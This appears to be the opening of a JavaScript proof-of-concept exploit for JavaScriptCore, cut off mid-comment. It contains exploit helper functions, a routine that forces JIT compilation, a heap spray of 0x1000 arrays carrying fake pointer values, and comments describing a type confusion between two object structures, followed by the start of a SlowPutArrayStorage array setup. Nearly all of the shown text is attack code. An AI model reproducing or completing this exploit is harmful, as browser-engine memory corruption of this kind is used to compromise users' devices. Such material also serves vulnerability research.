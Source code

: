 ```javascript
function hex(x) {
      return `0x${x.toString(16)}`
}
function d(x) {
    print(describe(x));
}
function pf(x) {
    print(hex(f2i(x)));
}
function ph(x) {
    print(hex(x));
}
function gc() {
      for (let i = 0; i < 0x10; i++) {
              new ArrayBuffer(0x1000000);
          }
}
function makeJITFunc() {
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }
    // Force JIT compilation.
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    return target;
}
// /System/Library/Frameworks/JavaScriptCore.framework/Resources/jsc poc.js
// The PoC will confuse objX with objY.
// objX will have structure S1, objY structure S2.
//let objX = {objProperty: {fetchme: [1.1]}};
//let objY = {doublePropety: [2.2]};             // 0x4141414141414141 in memory
//let target = [1.1,2.2,3.3];
let objX = {objProperty: {fetchme : 0x1234}};
let objY = {doubleProperty: []};
let victim = [1.1, 2.2, 3.3, 4.4, 5.5];
let structs = [];
for (let i = 0; i < 0x1000; i++) {
    var tmp = [1.1];
    tmp.pointer = i2f(0x1234);
    tmp['spray' + i.toString()] = 3.3;
    structs.push(tmp);
}
// Create a plain array with indexing type SlowPutArrayStorage. This is equivalent to
// `arrayStructureForIndexingTypeDuringAllocation(ArrayWithSlowPutArrayStorage)` in C++.
function createArrayWithSlowPutArrayStorage() {
    let protoWithIndexedAccessors = {};
    Object.defineProperty(protoWithIndexedAccessors, 1337, { get() { return 1337; } });
    // Compile a function that will end up creating an array with SlowPutArrayStorage.
    function helper(i) {
        // After JIT compilation, this new Array call will construct a normal array (with the
        // original Array prototype) with SlowPutArrayStorage due to profiling information from
```